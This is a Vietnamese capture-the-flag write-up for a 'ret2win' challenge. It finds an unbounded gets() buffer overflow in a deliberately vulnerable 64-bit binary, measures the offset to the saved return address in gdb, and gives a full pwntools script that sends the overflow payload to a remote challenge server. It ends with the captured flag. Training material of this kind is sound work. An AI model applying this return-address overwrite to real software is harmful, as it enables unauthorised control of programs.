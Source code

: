 # kcscctf.site - ret2win

Link challenge (Sẽ đóng vào 31/1/2022): http://kcscctf.site/challenges

Bạn cũng có thể tại challenge tại đây: [ret2win.zip](ret2win.zip)

File zip sẽ bao gồm 1 file:
- ret2win

Và chúng ta bắt đầu nào!

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8d452b45746f40766befca7259dde9a5db08445c, for GNU/Linux 3.2.0, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file trong ghidra. Ở đây chỉ có 2 hàm thú vị:

Hàm vuln()

![vuln.png](images/vuln.png)

Và hàm win()

![win.png](images/win.png)

Ở hàm vuln() dòng 9 là lệnh gets() không giới hạn --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong vuln thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![gdb1.png](images/gdb1.png)

![gdb2.png](images/gdb2.png)

![gdb3.png](images/gdb3.png)

Do rip chưa pop giá trị từ stack lên nên ta kiểm tra thông qua rsp (rsp đang chứa saved rip).

Vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm win() là xong:

![win_addr.png](images/win_addr.png)

Full code:
```
from pwn import *

# p = process('./ret2win')
p = connect('45.77.39.59', 10005)

payload = b'A'*40 				# Pad to rip
payload += p64(0x00000000004011f6)		# win() function

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()
```

# 4. Lấy flag

![get_flag.png](images/get_flag.png)

Vậy flag là `KCSC{592fc879-c2eb-45b7-bf15-2725f2a86338}`

